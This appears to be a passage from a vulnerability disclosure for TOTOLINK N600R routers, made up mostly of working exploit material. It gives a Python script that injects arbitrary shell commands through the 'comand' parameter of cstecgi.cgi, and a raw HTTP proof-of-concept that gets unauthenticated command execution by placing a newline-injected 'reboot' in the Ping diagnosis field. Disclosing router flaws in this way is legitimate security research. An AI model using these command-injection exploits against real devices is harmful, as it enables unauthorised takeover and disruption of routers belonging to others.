 #### EXP

```
import sys
import requests
import json
command=sys.argv[1]
try:
	ip=sys.argv[1]
	port=sys.argv[2]
	command=sys.argv[3]
except:
	print "nonono! cant't do this"
	print "please use python exp.py [ip] [port] [command]"
	exit()
url="http://%s:%s/cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;%s;&filetype=gz"%(ip,port,command)


headers={
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://%s:%s"%(ip,port),
}


requests.post(url,headers=headers)
```

#### verification

![image-20220221175918709](https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20220221175918709.png)

### Vulnerability2

#### Detail

​	In TOTOLINK N600R equipment ,The vulnerability lies in cstecgi.cgi JSON data can be passed in the function of testing Ping, resulting in unauthenticated RCE

<img src="https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20211111122344967.png" alt="image-20211111122344967" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Origin: http://192.168.0.1
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/adm/diagnosis.asp?timestamp=1636595925423
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 95

{"topicurl": "setting/setDiagnosisCfg", "actionFlag": "1", "ipDoamin": "www.baidu.com\nreboot\n"}
```
